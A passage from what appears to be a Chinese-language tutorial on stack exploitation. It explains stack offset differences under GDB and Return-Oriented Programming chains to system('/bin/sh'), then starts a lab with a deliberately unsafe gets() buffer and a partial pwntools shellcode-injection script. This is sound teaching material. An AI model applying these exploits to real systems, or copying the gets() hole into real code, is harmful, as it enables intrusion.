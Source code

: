 所以，一个新进程启动时，它的栈顶并不是空的，而是由内核预先填充了所有必要的启动信息。

这就是为什么会导致栈布局偏移，在GDB中计算出的精确栈地址 `0x7fffffffdb10`，在真实运行时会变成 `0x7fffffffda70` 的根本原因。

---

### ROP 的思想：当 W^X 开启时怎么办？

好了，现在我们知道，在有 W^X 保护的现代系统中，栈是不可执行的，我们的 Shellcode 注入攻击会失败。那么攻击者就束手无策了吗？当然不。这就催生了更高级的攻击技术：**ROP (Return-Oriented Programming, 面向返回的编程)**。

**ROP 的核心思想是：既然我不能注入自己的代码，那我就“偷”和“借”程序本身已有的代码片段来用。**

1.  **寻找 Gadgets**：攻击者会扫描程序的整个代码段（`.text` section，这是可执行的），寻找一些有用的、以 `ret` 指令结尾的短指令序列。这些序列被称为 **"Gadgets"**。
2.  **经典的 Gadget**：例如 `pop rdi; ret` 就是一个极其有用的 Gadget。
    *   在 64 位 Linux 系统中，函数调用的约定是，第一个参数通过 `RDI` 寄存器传递。
    *   `pop rdi` 指令的作用是将栈顶的数据弹到 `RDI` 寄存器中。
    *   因此，`pop rdi; ret` 这个 Gadget 给了我们**控制第一个函数参数**的能力。
3.  **链式调用 (Chaining)**：ROP 的精髓在于“链”。`ret` 指令不仅是 Gadget 的结尾，也是连接下一个 Gadget 的“胶水”。攻击者可以在栈上精心布置一个数据序列：
    ```
        +-----------------------------------+
        | 地址 of "pop rdi; ret" gadget     | <-- 被覆盖的返回地址
        +-----------------------------------+
        | Value for RDI (addr of "/bin/sh") | <-- 将被 pop 进 RDI 的值
        +-----------------------------------+
        | 地址 of system() function         | <-- "pop rdi; ret" 执行完后，ret 会跳转到这里
        +-----------------------------------+
        | ... (可以接更多 gadget 和数据) ... |
        +-----------------------------------+
    ```

**攻击流程如下：**
1.  函数返回，`ret` 指令跳转到 `pop rdi; ret` Gadget 的地址。
2.  CPU 执行 `pop rdi`，将栈上的 `/bin/sh` 字符串地址弹入 `RDI` 寄存器。
3.  CPU 执行 `ret`，此时栈顶是 `system()` 函数的地址，于是程序跳转到 `system()`。
4.  `system()` 函数开始执行，它一看 `RDI` 寄存器，发现参数是 `"/bin/sh"`，于是它就为我们打开了一个 Shell。

通过在栈上布置一连串的 `[Gadget地址] [数据] [Gadget地址] [数据] ...`，攻击者可以像搭乐高积木一样，将这些小程序代码片段拼接起来，完成复杂的操作（如调用多个函数、进行计算等），其效果等同于执行了一段完整的 Shellcode，但整个过程中没有在栈上执行任何一个字节，完美地绕过了 W^X 保护。

---

## 3. 如果我都有 W&X 的栈了，那我不是可以随心随意地执行汇编代码了吗（笑）
下面我们尝试在一个"普通"的gets()读取函数后，直接启动一个 `/bin/sh` !
修改main.c
```cpp
void getstr() {
    char buf[48]; // 大一点的空间来存我们的汇编代码
    printf("Address of buffer (buf): %p\n", buf);
    gets(buf);
}
```
```python
# att-sh.py
from pwn import *
context.arch = 'amd64'
# nop_sled = asm('nop') * 13

func_addr = 0x401156
Shellcode = asm("sub rsp, 0x48") + asm(shellcraft.sh())
padding = b'A' * (56 - len(Shellcode))
addr_exit_buf = 0x7fffffffdc40
```